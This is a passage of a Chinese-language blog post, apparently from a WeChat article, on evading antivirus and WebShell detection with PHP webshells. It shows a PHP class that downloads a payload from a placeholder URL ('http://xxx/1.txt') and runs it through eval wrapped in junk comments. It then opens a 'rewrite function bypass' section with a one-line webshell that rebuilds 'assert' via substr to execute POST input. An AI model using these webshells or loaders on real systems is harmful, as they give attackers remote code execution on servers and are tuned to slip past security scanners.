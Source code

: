 ![](https://mmbiz.qpic.cn/mmbiz_png/bMyibjv83iavzP8tGlJ0LAqI5btOXNcjZyDUAOe7M9o0ia8bMekQq7hdQaL6RFQEEYgZEngQ6Lg1qDopibqE2XraYA/640?wx_fmt=png)  
当然肯定能用

![](https://mmbiz.qpic.cn/mmbiz_png/bMyibjv83iavzP8tGlJ0LAqI5btOXNcjZyvaJicQg4IuU14IyYJaw68yUwRvtQbO4GhWLQE4ibVf5XTgtj8xEV0NMg/640?wx_fmt=png)

但是 这转了一圈简直不低碳啊 我不能直接 http 获取 payload 吗 ...  

简化代码：

```
<?php
class KUYE{
        public $a = 'yshasaui';
        public $b = '';
        function __construct(){
        $url = "http://xxx/1.txt";
        $fp = fopen($url, 'r');
        stream_get_meta_data($fp);
        while (!feof($fp)) {
            $body.= fgets($fp, 1024);
        }
        $this->b = $body;
        @eval("/*GnSpe=121u*/".$this->b."/*Gn212Spe=u*/");
        }}
new KUYE();
?>
```

![](https://mmbiz.qpic.cn/mmbiz_png/bMyibjv83iavzP8tGlJ0LAqI5btOXNcjZyaNOZmHianLic6uiabSr0XVicZFAhL0H853xKtQZacSvDib9rEjaIpnpFchA/640?wx_fmt=png)  
![](https://mmbiz.qpic.cn/mmbiz_png/bMyibjv83iavzP8tGlJ0LAqI5btOXNcjZygqGeFtYibtlPmL2yXs544UwiahdkJj0yMId9nIYV8cYOU0pN0l2LQE1g/640?wx_fmt=png)  
**0x03：重写函数 Bypass**

众所周知 正则类杀软最喜欢直接把危险函数加入规则 那么 它杀的是函数名 还是逻辑呢？

试一试就知道了

我们的样本如下：

```
<?php

$a = substr("assertxx",0,6);

$a($_POST['x']);

?>
```

这是个使用 substr 函数切割关键字的小马

直接扔到 webdir + 杀  
![](https://mmbiz.qpic.cn/mmbiz_png/bMyibjv83iavzP8tGlJ0LAqI5btOXNcjZyhM67hRqOibcV1m1PRKY0Nz4eLUfsIcxDe6zqIg1WxCVtcvfXrpzO6AA/640?wx_fmt=png)  
毫无疑问的被杀了

